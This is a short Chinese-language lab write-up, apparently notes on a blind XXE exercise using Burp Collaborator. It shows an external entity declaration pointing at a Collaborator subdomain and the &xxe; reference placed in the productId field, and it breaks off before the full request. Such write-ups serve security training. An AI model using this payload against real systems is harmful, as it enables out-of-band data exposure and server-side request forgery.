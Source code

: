 <img src=".\图片\Snipaste_2023-07-31_10-46-38.png" alt="Snipaste_2023-07-31_10-46-38" style="zoom:80%;" />

2、XXE注入

BP---BC客户端---“Copy to clipboard”负载复制到剪贴板（客户端窗口保持打开状态）

类似 dnslog 平台

```
9akkf2r1p6opbvygad7jyey0crih66.burpcollaborator.net
```

3、在XML声明和stockCheck元素之间插入以下外部实体定义

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
 
我的是：
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://9akkf2r1p6opbvygad7jyey0crih66.burpcollaborator.net"> ]>
```

将productId编号替换为对外部实体的引用：

```xml
&xxe;
```

完整格式为

